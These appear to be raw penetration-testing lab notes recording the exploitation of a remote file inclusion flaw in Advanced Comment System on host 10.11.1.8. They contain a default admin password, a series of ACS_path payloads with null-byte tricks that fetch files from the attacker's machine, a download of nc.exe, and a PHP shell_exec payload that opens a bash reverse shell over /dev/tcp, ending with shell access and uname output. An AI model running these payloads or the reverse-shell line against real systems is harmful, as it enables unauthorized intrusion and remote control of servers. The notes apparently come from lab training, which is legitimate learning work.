

https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-66/version_id-15944/Apache-Http-Server-2.0.52.html
gcc -m32 -Wl,--hash-style=both public._exploit.c -o exploit
http://10.11.1.8/internal/ is an ACS web application
ACS = ADVANCED COMMENT SYSTEM! (noticed it when looking at page's source code and see ACS everywhere)
https://www.securityfocus.com/bid/42964/exploit
--->
http://10.11.1.8/internal/advanced_comment_system/admin.php --> ADMIN page
PASSWORD IS admin!!!!!
http://10.11.1.8/internal/advanced_comment_system/admin.php?pw=admin&page=/internal/index.php&del=2
http://10.11.1.8/internal/advanced_comment_system/index.php?ACS_path=http://10.11.0.187/evil.txt?
----> ** THIS GETS SOMETHING.**
use tail -f /var/log/apache2/access.log to make sure it is trying to get the file.
http://10.11.1.8/internal/advanced_comment_system/admin.php?ACS_path=http://10.11.0.187/php-reverse-shell.php%00?
still doesn't get me a shell
http://10.11.1.8/internal/advanced_comment_system/admin.php?ACS_path=http://10.11.0.187/ifconfig.txt%00?
!!! This returns the ifconfig info!!! yay
http://10.11.1.8/internal/advanced_comment_system/admin.php?ACS_path=http://10.11.0.187/wget-nc.txt%00?
---> 10.11.1.8 - - [11/Jun/2018:19:08:30 -0400] "GET /nc.exe HTTP/1.0" 200 36652 "-" "Wget/1.10.2 (Red Hat modified)"

http://10.11.1.8/internal/advanced_comment_system/admin.php?ACS_path=http://10.11.0.187/evil-linux.txt%00?
root@:~> nc -nlvp 443
listening on [any] 443 ...
connect to [10.11.0.187] from (UNKNOWN) [10.11.1.8] 33704
<?php echo shell_exec("nc -nv 10.11.0.187 443");?>
GOT ME A NC RESPONSE
This got me a shell:
<?php echo shell_exec("bash -i >& /dev/tcp/10.11.0.187/443 0>&1");?> (inside evil-linux2.txt)
http://10.11.1.8/internal/advanced_comment_system/admin.php?ACS_path=http://10.11.0.187/evil-linux2.txt%00?

bash-3.00$ uname -a
Linux phoenix 2.6.9-89.EL #1 Mon Jun 22 12:19:40 EDT 2009 i686 i686 i386 GNU/Linux